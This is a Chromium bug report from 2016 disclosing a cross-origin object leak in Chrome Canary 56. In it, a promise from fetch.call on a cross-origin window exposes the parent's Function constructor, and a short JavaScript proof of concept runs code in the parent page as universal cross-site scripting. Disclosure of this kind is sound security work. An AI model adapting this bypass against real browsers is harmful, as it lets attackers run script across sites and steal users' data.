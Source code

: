 # Cross-origin object leak via fetch

### Reported by pim...@live.nl, Oct 15 2016

VULNERABILITY DETAILS
The promise returned by `fetch.call(crossOriginWindow)` is created in the cross-origin context. Direct cross-origin scripting is not possible because cross-origin function constructors don't work anymore ( issue 541703 ). But the attacker can e.g. call other functions of the cross-origin page.

VERSION
Chrome Version: 56.0.2891.0 canary (64-bit). Does not reproduce in stable; the promise is generated in the correct context there. Possibly commit [1] might be the cause, but I'm not sure.
Operating System: Windows 10

REPRODUCTION CASE
See attachments. Save in the same directory, then open parent.html. The sandboxed child is able to call `Function.foo` of the parent page.

In fact, I found a way to bypass the function constructor restrictions. That is, UXSS is possible. The trick is to create and resolve a promise, and call the function constructor in the `then` callback:

```js
  var parent_Promise = fetch.call(parent).constructor;
  var parent_Function = parent_Promise.constructor;
  new parent_Promise(function(resolve) {
    resolve();
  }).then(function() {
    var f = new parent_Function("document.body.style.backgroundColor = 'red';");
    f();
  });
```

Link: https://bugs.chromium.org/p/chromium/issues/detail?id=656274

